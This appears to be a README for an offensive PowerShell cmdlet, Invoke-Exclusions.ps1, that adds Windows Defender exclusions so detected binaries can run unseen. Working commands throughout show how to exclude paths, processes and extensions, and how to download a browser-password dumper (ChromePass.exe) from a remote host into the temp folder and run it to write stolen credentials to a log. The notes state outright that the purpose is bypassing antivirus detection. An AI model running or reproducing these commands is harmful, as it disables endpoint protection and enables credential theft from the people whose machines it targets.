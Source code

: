 ## Invoke-Exclusions.ps1

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Exclusions|Add exclusions to Defender (Set-MpPreference) + Download\Execute -uri 'cmdlet'<br />Exclusion values accepted are : **'ExclusionPath, ExclusionProcess, ExclusionExtension'**|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-ExclusionsUrl.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Force

#Get Exclusions List (terminal)
.\Invoke-Exclusions.ps1 -action "query"

#Get Exclusions List (GUI)
.\Invoke-Exclusions.ps1 -action "query" -Gui "true"


#Set-MpPreference -ExclusionProcess "cmd" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "cmd"

#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"


## Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -OutFile "$Env:TMP\ChromePass.exe"
# 3º - cd $Env:TMP; .\ChromePass.exe /stext credentials.log
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"


#Remove-MpPreference -ExclusionProcess "cmd" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "cmd"
```

<br />

### Final Notes
```powershell
[DESCRIPTION]
This cmdlet allow users to manage ( query, create, delete ) Windows
Defender exclusions: ExclusionExtension, ExclusionProcess, ExclusionPath.
The files covered by the exclusion definition will be excluded from Windows
Defender Real-time protection, monitoring, Scheduled scans, On-demand scans.

[NOTES]
This cmdlet in addition to add\remove exclusions from windows defender
allows its users to download binaries (PE) that are being detected by the
anti-virus and run it through the exclusion selected (bypassing detection)
```
